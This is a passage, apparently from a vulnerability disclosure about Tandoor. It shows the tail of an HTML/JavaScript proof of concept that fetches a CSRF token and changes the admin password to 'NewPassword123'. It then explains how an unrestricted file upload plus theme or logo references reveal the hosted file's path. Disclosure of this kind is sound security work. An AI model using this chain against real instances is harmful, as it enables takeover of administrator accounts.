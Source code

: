 ```html
            }
        }

        // Main function to execute both requests sequentially
        (async function execute() {
            try {
                // Step 1: Fetch the CSRF token
                const csrfToken = await fetchCsrfToken();

                // Step 2: Use the CSRF token to update the password
                const result = await changePassword(csrfToken);

                // Update the page status based on the result
                if (result) {
                    document.getElementById('status').textContent = 'Password updated successfully!';
                }
            } catch (error) {
                // Check if the error is due to "not authorized"
                if (error.message === 'not authorized') {
                    document.getElementById('status').textContent = 'You are not an admin. Send this link to an admin user.';
                } else {
                    // Display other error messages on the page
                    document.getElementById('status').textContent = 'Error: ' + error.message;
                }
            }
        })();
    </script>
</body>
</html>
```

The File Upload feature has no restrictions on the files that can be uploaded. 

![Tandoor27](/media/2025/01/tandoor27.png)

However, the filenames are changed to a random UUIDv4 and the filename is not disclosed immediately. To know the filename of our uploaded file we need to specify the file as `Custom Theme` or as `Logo`

![Tandoor28](/media/2025/01/tandoor28.png)

This way, it is referenced in HTML responses returned by tandoor, revealing its path.

![Tandoor29](/media/2025/01/tandoor29.png)

The PoC, if visited, checks whether the user has administrative privileges or not.

![Tandoor30](/media/2025/01/tandoor30.png)

If the user has administrative privileges, the password of the admin user is changed to `NewPassword123`
